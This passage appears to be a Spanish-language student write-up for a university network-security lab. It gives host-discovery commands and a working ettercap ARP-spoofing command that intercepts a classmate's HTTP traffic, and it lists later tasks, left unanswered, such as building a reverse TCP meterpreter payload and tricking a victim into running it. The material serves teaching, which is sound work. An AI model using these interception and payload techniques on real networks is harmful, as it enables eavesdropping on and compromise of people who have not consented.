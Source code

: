 Para obtener la tabla de las direcciones MAC de la máquina se ejecuta el comando:

```shell
arp -a
```

Y para obtener las MACs de las máquinas de la red usamos:

```shell
ping -b 10.11.49.255 #No recomendable
```

o:

```shell
nmap -sP 10.11.48.0/23
```

##### d) Obtenga la relación de las direcciones IPv6 de su segmento. 

##### e) Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados. 

##### f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima. 

Ejecutamos ettercap:

```shell
ettercap -i ens33 -Tq -P remote_browser -w /home/lsi/Escritorio/archivo.cap -M arp:remote /ip compañero// /ip router//
```

mientras el compañero navega con el navegador lynx y emplea el comando curl.

Tras terminas el ataque en nuestra máquina recibimos una copia del archivo con:

```shell
scp lsi@ip:/home/lsi/Escritorio/archivo.cap C:/Directiorio/Destino
```

Y lo analizamos con la herramienta Wireshark.

##### g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute. 

##### h) Haga un MITM en IPv6 y visualice la paquetería. 

##### i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon). 

##### j) Pruebe distintas técnicas de host discovery, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?. 
